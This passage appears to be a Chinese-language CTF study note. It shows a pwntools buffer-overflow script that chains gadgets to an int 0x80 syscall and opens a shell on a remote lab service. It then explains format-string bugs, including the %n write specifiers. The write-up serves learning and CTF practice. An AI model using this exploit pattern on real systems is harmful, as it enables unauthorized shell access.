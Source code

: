 

```python
from pwn import *


context(arch='i386', os='linux')
context.log_level = 'debug'
url = "192.168.155.143 9000"
# host, port = url.replace(' ', ':').split(':')

mov_eax = 0x80484F8
mov_edx = 0x8048495
mov_ecx = 0x80484AA
sh = 0x8049944
int_80h = 0x8048483

p = remote(url)

payload = b'a' * (0x12 - 4) + p32(sh) + b'b' * 4 + p32(mov_ecx) + b'aaaa' + p32(mov_edx) + b'aaaa' + p32(mov_eax) + b'aaaa' + p32(int_80h)

p.sendline(payload)

p.interactive()
```



## 格式化字符串

![image-20230707144129237](.\SNERT2023\image-20230707144129237.png)

##### printf() 执行时的堆栈如图，printf()  维护着一个内部指针，刚开始时该指针指向的是格式化字符串，然后开始将格式化字符串打印到标标输出（STDIO），直到遇到一个特殊字符。如果是 %，  那么 printf() 会期望着后面跟着一个格式控制符，因此将内部指针递增（向帧栈底部方向）以抓取格式 控制符的输入值（一个变量或绝对值）

即使没有提供足够数目的参数，但 printf() 的指针还是会往下移动，抓取下一个值以满足格式化字符串的需要。

printf(buf)

printf("aaaa%p%p", a1, a2)

```c
printf()
%d 输出十进制整数
%f 输出十进制实数
%x 输出16进制数据
%p 输出指针
%s 输出字符串以及打印参数地址处的字符串
%o 输出八进制整数
%c 输出字符
%n 输入到目前为止所写的字符数
    %hhn 写单个字节
    %hn  写2个字节
    %ln  写4字节
    %lln 写8个字节
```
